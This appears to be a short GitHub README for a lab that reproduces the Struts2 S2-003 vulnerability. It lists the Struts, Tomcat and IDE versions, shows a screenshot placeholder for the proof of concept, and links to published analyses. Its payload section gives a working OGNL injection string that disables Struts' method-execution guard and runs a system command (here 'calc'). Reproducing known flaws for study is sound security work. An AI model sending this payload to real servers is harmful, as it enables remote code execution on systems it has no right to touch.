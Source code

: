 ## S2-003 Demo

### Environment

Struts2 Version: `struts-2.0.11.2-all`

Tomcat: `6.0.9 (I only run payload behind successful in this version).`

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

### POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417]({15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

### payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

